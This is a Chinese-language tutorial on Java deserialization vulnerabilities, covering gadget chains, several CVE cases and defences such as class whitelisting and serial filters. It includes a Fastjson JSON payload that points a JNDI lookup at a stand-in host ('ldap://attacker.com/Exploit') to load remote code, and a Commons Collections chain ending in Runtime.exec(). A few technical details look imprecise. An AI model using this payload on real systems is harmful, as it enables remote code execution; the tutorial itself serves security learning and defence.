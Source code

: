 
## 目录
1. [序列化与反序列化基础](#序列化与反序列化基础)
2. [Java序列化实现机制](#java序列化实现机制)
3. [反序列化漏洞原理与利用](#反序列化漏洞原理与利用)
4. [典型反序列化漏洞案例](#典型反序列化漏洞案例)
5. [防御与最佳实践](#防御与最佳实践)
6. [法律声明](#法律声明)

---

## 序列化与反序列化基础

### 定义与用途
- **序列化**：将内存中的对象转换为可存储或传输的格式（如二进制流、JSON、XML）。  
- **反序列化**：将序列化后的数据还原为内存中的对象。  

| **场景**             | **说明**                                                                 |
|----------------------|-------------------------------------------------------------------------|
| 网络传输对象          | 在RPC（远程过程调用）、RMI（远程方法调用）中传输对象实例                     |
| 持久化存储            | 将对象保存到文件或数据库（如Session存储）                                  |
| 分布式系统通信        | 微服务架构中跨服务传递复杂数据结构                                         |

### 对比其他语言
| **语言** | **序列化方式**              | **特点**                                  |
|----------|----------------------------|------------------------------------------|
| Java     | `ObjectOutputStream`       | 二进制格式，需实现`Serializable`接口       |
| PHP      | `serialize()`/`unserialize()` | 支持Magic方法（如`__wakeup()`）            |
| Python   | `pickle`模块               | 可序列化任意对象，存在安全风险              |

---

## Java序列化实现机制

### 核心类与接口
- **`Serializable`接口**：标记性接口，实现该接口的类允许序列化。  
- **`ObjectOutputStream`**：  
  ```java
  ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("data.obj"));
  oos.writeObject(obj);  // 序列化对象到文件
  ```
- **`ObjectInputStream`**：  
  ```java
  ObjectInputStream ois = new ObjectInputStream(new FileInputStream("data.obj"));
  Object obj = ois.readObject();  // 反序列化恢复对象
  ```

### 序列化协议格式
- **二进制结构**：包含类元数据、字段值、继承关系等信息。  
- **头部标识**：`AC ED 00 05`（Java序列化流的魔数）。  
- **自定义序列化**：通过重写`writeObject()`和`readObject()`方法控制序列化行为。  
  ```java
  private void writeObject(ObjectOutputStream out) throws IOException {
      out.defaultWriteObject();  // 默认序列化
      out.writeUTF(customField); // 自定义字段处理
  }
  ```

---

## 反序列化漏洞原理与利用

### 漏洞成因
1. **输入可控**：反序列化数据来源不可信（如HTTP请求参数、文件上传）。  
2. **危险方法调用**：反序列化过程中触发以下操作：  
   - 执行`readObject()`中的任意代码（如`Runtime.exec()`）。  
   - 调用链（Gadget Chain）利用第三方库的漏洞（如Apache Commons Collections）。  

### 攻击流程
```mermaid
graph TD
  A[构造恶意序列化数据] --> B[发送至目标服务]
  B --> C[目标反序列化触发漏洞]
  C --> D[执行任意命令/代码]
```

### 关键利用类示例
| **类名**                     | **漏洞触发点**                              | **利用场景**             |
|------------------------------|--------------------------------------------|--------------------------|
| `AnnotationInvocationHandler`| 反序列化时触发动态代理逻辑                  | JDK原生类利用            |
| `BadAttributeValueExpException` | `toString()`方法触发`readObject()`        | JMX组件漏洞              |
| `TemplatesImpl`              | 加载字节码执行任意代码                      | Fastjson反序列化漏洞     |

---

## 典型反序列化漏洞案例

### 1. Apache Commons Collections
- **漏洞编号**：CVE-2015-7501  
- **影响版本**：3.2.1及以下  
- **利用链**：  
  ```java
  InvokerTransformer.transform() → ChainedTransformer.execute() → Runtime.getRuntime().exec()
  ```
- **修复**：升级至4.0+版本，移除危险Transformer类。

### 2. Fastjson反序列化漏洞
- **漏洞编号**：CVE-2022-25845  
- **利用条件**：开启`autoType`功能，存在危险类（如`JdbcRowSetImpl`）。  
- **Payload示例**：  
  ```json
  {
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://attacker.com/Exploit",
    "autoCommit":true
  }
  ```

### 3. Apache Shiro RememberMe
- **漏洞编号**：CVE-2016-4437  
- **原理**：Shiro使用AES加密的序列化Cookie，密钥硬编码导致反序列化攻击。  
- **利用工具**：`ysoserial`生成Payload。  

---

## 防御与最佳实践

### 代码层防护
1. **避免反序列化不可信数据**：使用JSON、Protobuf等安全格式替代。  
2. **白名单校验**：限制可反序列化的类。  
   ```java
   ObjectInputStream ois = new ObjectInputStream(input) {
       @Override
       protected Class<?> resolveClass(ObjectStreamClass desc) 
           throws IOException, ClassNotFoundException {
           if (!desc.getName().equals("SafeClass")) {
               throw new InvalidClassException("Unauthorized class");
           }
           return super.resolveClass(desc);
       }
   };
   ```
3. **升级依赖库**：及时修补已知漏洞的第三方库（如Commons Collections 4.0+）。

### 基础设施加固
- **WAF规则**：拦截包含`AC ED 00 05`等序列化魔数的请求。  
- **JVM参数**：禁用危险类加载。  
  ```bash
  -Djdk.serialFilter=!org.apache.commons.collections.*
  ```

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本文档内容仅用于安全研究与防御技术学习，严禁用于非法用途！**
```